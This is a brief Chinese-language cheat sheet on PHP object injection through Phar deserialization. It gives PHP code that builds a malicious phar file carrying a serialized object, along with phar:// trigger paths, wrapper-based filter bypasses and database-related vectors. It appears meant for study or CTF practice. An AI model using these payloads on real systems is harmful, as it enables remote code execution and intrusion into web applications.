

# PHP Object Injection

## Phar

### 相关原理：

* https://paper.seebug.org/680/
* https://blog.zsxsoft.com/post/38?from=timeline&isappinstalled=0

### Phar构造

```php
<?php
    include __DIR__ . "/vender/autoload.php";
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
	# 带有反序列化漏洞的类
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
```

### 相关利用

受影响函数：



`phar://test.phar/test.txt`

> phar文件的后缀不一定是phar

绕过姿势：

* `Phar://test.phar/test.txt`
* `compress.bzip2://phar://test.phar/test.txt`
* `compress.zlib://phar://test.phar/test.txt`

数据库相关：

* Mysql `LOAD DATA LOCAL INFILE`
* Postgre `$pdo->pgsqlCopyFromFile`

## 参考资料

* https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf
* https://github.com/ambionics/phpggc
